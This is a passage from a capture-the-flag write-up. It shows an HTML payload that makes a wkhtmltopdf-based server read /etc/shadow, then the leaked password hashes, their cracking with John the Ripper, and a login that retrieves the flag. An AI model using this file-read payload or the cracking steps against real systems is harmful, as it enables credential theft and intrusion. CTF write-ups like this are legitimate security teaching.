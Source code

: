 The server also seems to be running as root, since changing the payload in the
issue slightly (`/etc/passwd` -> `/etc/shadow`) works, and the server gives us
the password entries.

```
<!DOCTYPE html>
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">

<body>

<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/shadow");
x.send();
</script>

</body></html>
```

The server sends us the shadow entries, including the following:

```
dave:$1$M.bfkUDw$jjybwVXMb4waSV0fY5gp0/:19062:0:99999:7:::
john:$1$EPS/Rl3g$5TLupCmddYSibyDaZtZhQ0:19062:0:99999:7:::
emma:$1$iasayt59$U1QnVGaDEJKyps3iHWv2P1:19062:0:99999:7:::
WeakPasswordAdmin:$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:19062:0:99999:7:::
```

The last entry (`WeakPasswordAdmin`) seems promising, and in fact we can crack
it very quickly with a password cracker.

```
$ john <(echo 'WeakPasswordAdmin:$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:19062:0:99999:7:::')
Loaded 1 password hash (md5crypt [MD5 32/64 X2])
Warning: OpenMP is disabled; a non-OpenMP build may be faster
Press 'q' or Ctrl-C to abort, almost any other key for status
sunshine         (WeakPasswordAdmin)
1g 0:00:00:00 100% 2/3 6.250g/s 11618p/s 11618c/s 11618C/s 123456..franklin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Finally, we can use the cracked credentials to obtain the flag.

```
$ curl -sS http://web2.utctf.live:9854/admin -F username=WeakPasswordAdmin -F password=sunshine | grep utflag
      <p style="color:red"><b>utflag{b1g_r3d_t3am_m0v35_0ut_h3r3}</p>
```

## Failed Hash Function (Cryptography)

> I made this keyed hash function for my final project, but I got a 0...
> Apparently, there's too many collisions and you can recover the key after one
> hash. I don't believe it. In fact, if you can break my hash function 100
> times, I'll give you a flag! I'll even be nice -- you get two whole guesses to
> find the key. By oops (@oops on discord)
>
> `nc misc1.utctf.live 5000`
>
> [main.py](failed-hash-function/main.py)


[wkhtmltopdf-gh]: https://github.com/wkhtmltopdf/wkhtmltopdf/
[wkhtmltopdf-gh-issue]: https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536
[misc-grumpy-bcsscan]: https://bscscan.com/address/0x867D66C78235CD6c989FbFA34606FcfF637fB613
[misc-grumpy-etherscan]: https://ropsten.etherscan.io/address/0x867D66C78235CD6c989FbFA34606FcfF637fB613
[misc-grumpy-tx]: https://ropsten.etherscan.io/tx/0xca78d2d51101fda93f3f8c62f4349dd23a7e5692cef667ab834c3611601f068f